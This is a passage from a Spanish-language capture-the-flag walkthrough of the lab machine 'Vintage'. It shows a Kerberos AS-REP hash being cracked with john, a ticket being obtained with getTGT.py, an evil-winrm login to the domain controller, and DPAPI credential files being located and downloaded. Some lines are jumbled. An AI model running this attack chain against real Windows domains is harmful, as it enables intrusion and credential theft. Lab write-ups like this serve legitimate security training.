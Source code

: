 [-] User C.Neri_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi_adm doesn't have UF_DONT_REQUIRE_PREAUTH set


Le pasamos john al primer hash, de svc_sql y obtenemos Zer0the0ne como password.

Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 512/512 AVX512BW 16x])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Zer0the0ne       ($krb5asrep$23$svc_sql@VINTAGE.HTB)     
1g 0:00:00:01 DONE (2024-12-26 13:28) 0.9174g/s 954480p/s 954480c/s 954480C/s alexliam..TEGLUSH4EVA
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

probamos

C.Neri@vintage.htbContraseña de uso de cuenta Zer0the0neIngresó exitosamente

Obtenga las credenciales para esta cuenta

python3 getTGT.py vintage.htb/c.neri:Zer0the0ne -dc-ip vintage.htb

export KRB5CCNAME=c.neri.ccache

Luego inicie sesión de forma remota utilizando el puerto 5985

evil-winrm -i dc01.vintage.htb -r vintage.htb

y estamos dentro

obtenemos la user.txt

en C:\Users\C.Neri\Desktop

Aquí usamos DPAPI para obtener credenciales de identidad de Windows.

*Evil-WinRM* PS C:\users\c.neri\appdata\roaming\microsoft\credentials> dir -h


    Directory: C:\users\c.neri\appdata\roaming\microsoft\credentials


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          6/7/2024   5:08 PM            430 C4BB96844A5C9DD45D5B6A9859252BA6


download C4BB96844A5C9DD45D5B6A9859252BA6


*Evil-WinRM* PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115> dir -h


    Directory: C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          6/7/2024   1:17 PM            740 4dbf04d8-529b-4b4c-b4ae-8e875e4fe847
-a-hs-          6/7/2024   1:17 PM            740 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
-a-hs-          6/7/2024   1:17 PM            904 BK-VINTAGE
-a-hs-          6/7/2024   1:17 PM             24 Preferred
